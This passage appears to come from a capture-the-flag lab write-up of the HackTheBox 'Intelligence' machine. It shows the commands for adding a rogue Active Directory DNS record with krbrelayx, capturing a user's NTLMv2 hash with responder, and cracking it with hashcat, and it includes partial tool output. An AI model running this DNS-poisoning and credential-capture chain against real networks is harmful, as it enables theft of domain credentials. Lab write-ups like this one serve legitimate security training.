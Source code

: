 Inspecting the script reveals that it queries a DNS request to a record that starts with the string ‘web’. We could try to poison it by redirecting an arbitrary subdomain to us.

```powershell
# Check web server status. Scheduled to run every 5min
Import-Module ActiveDirectory 
foreach($record in Get-ChildItem "AD:DC=intelligence.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=intelligence,DC=htb" | Where-Object Name -like "web*")  {
try {
$request = Invoke-WebRequest -Uri "http://$($record.Name)" -UseDefaultCredentials
if(.StatusCode -ne 200) {
Send-MailMessage -From 'Ted Graves <Ted.Graves@intelligence.htb>' -To 'Ted Graves <Ted.Graves@intelligence.htb>' -Subject "Host: $($record.Name) is down"
}
} catch {}
}
```

I will be using [krbrelayx](https://github.com/dirkjanm/krbrelayx). This tool is fabulous to exploit unconstrained delegation and more.

```bash
python3 ~/Desktop/tools/krbrelayx/dnstool.py -a add -d 10.10.14.112 -u intelligence.htb\\Tiffany.Molina -p <REDACTED> 10.129.95.154 -r webdusk.intelligence.htb
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully
```

It took a 10 minutes break and there it was, a connection from Ted.Graves user.

```bash
sudo responder -I tun0 -v
```

<img src="/assets/img/intelligence/Untitled 4.png" alt="Untitled 4.png" style="width:800px;">

It was a **weak password** so we could crack it.

```bash
hashcat -m 5600 ntlmv2.hash /usr/share/wordlists/rockyou.txt
TED.GRAVES::intelligence:9305594e494c375e:704...:<REDACTED>
```
